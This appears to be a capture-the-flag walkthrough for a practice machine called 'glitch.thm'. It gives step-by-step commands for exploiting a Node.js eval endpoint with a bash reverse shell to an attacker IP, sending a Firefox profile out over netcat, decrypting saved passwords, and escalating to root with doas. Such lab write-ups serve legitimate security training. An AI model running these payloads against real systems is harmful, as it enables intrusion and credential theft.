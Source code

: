 1) Wait about 5 minutes until the `error 502` disappears and the page loads.

2) Open the `development tools` and open the  `tag script`.

3) From the code below:

```

      function getAccess () {
        fetch ('/ api / ac ** ss')          <---------------------
          .then ((response) => response.json ())
          .then ((response) => {
            console.log (response);
          });
      }
    
```

We have endpoint to `first api`

4) We attach to the link `/api/ac ** ss` and the encoded  `token` appears:

```dGhpc **** 3RfcmVhbA ==```

5) You will immediately notice that the sequence looks familiar it is `base64`.

Go to, for example, this page: [base64_decode](base64decode.org/)

We enter  `encoded token` and get `decoded`:

```this_is _ * _ **```

6) Go back to the `main page` and go to the `development tools`.

We go to the `Cookies` tab and see the `token` set to the value of `value`, double click on it and change the value to `decoded token`.

After all this `refresh the page` (f5)

7) Another page appears, go to the `debugger` tab.

On the left panel, open the `js` tab and click on the `script.js` file

```
  const container = document.getElementById ('items');
  await fetch ('/api/**')                               <------------------------
    .then ((response) => response.json ())
    .then ((response) => {
      response.sins.forEach ((element) => {

```

From the above code we can see another endpoint to the `next API`.

8) We append it to our `link` and intercept the `request` with e.g. the `burp` program in my example.

9) We do `send to reapeater` and we do `send`.

If unsuccessful `remove` from` Header request`:

```
    If-None-Match: W / "a9-0aR6bAfiK / DB + ***"

```

And everything should be working by now.

10) We check what queries the API `allows`.

We change `GET` to` OPTIONS`

```OPTIONS /api/i * HTTP / 1.1```

11) We see that we can do the following in this endpoint:

```GET, HEAD, POST```

12) We check possible parameters:

```wfuzz -c -z file, /usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

We see an eval function that should give us a lot to think about:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) We are interested in `POST`. We are looking for `NodeJs RCE eval` on the internet.

I used this site: [site](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

There I have noticed the `exploit` it will use.

14) We change in `burp` parameter to `post` and add `?cmd=` and attach `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP / 1.1
```

In the terminal, enter `nc -lvpn <PORT>`

And click `send`. We should have accessed the user `user`.

15) We go to the `/home/user` directory and see the `first flag`.

16) After cat the flag (`cat <file>`) we show all the files in the directory `ls -la`.

We may notice the hidden `.firefox` directory. We enter it `cd .firefox`.

We see what looks like the session directory `b5w4643p.default-release`.

17) We download to our machine: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

We pack sessions from the server `tar -cf archive.tar ./b*`.

Using [netcat](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/) we send the file to our computer.

On our computer, type: `nc -l -p 1234> ./archive.tar`.

And on the server: `nc -w 3 <IP> 1234 < ./archive.tar`.

18) Then with `firefox_decrypt` we decrypt the password to the user `v0id`:

```tar -xvf archive.tar```

```./firefox_decrypt.py ./( PATH TO DIRECTORY) b5w4643p.default-release```


After a while it appears to us:

```

    Website: https: //glitch.thm
    Username: 'v0id'
    Password: 'love_ *'


```

19) We switch to user `v0id` with `su v0id`.

If you see: `su: must be run from a terminal`. Enter: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. And then we try again.

20) With the command `doas` we increase our privileges to the user `root`.

```doas -u root  /bin/bash```

21) We go to the `/root` directory and get the `last flag`.
